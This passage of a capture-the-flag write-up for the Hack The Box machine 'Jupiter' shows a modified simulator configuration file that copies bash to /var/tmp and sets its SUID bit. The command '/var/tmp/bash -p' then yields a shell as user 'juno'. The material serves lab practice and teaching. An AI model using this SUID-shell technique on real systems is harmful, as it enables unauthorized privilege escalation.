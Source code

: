Below is the entire configuration file (*modified*) :
```bash
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /usr/bin/bash /var/tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /var/tmp/bash
      start_time: 5s
```

This configuration, when executed, will make the following actions:
1. Copy the `/usr/bin/bash` binary into `/var/tmp/` directory
2. Grant the SUID bit to the copied binary `/var/tmp/bash`, which then can be used to escalate to `juno` user via the command `/var/tmp/bash -p`

Now, all we can do is wait for the configuration file to be executed and we will get a bash session as `juno` by running the command:

```bash
postgres@jupiter:~$ /var/tmp/bash -p
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-18 21_06_19-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Lateral Movement - shell as 'juno'</i></center>
<br/>
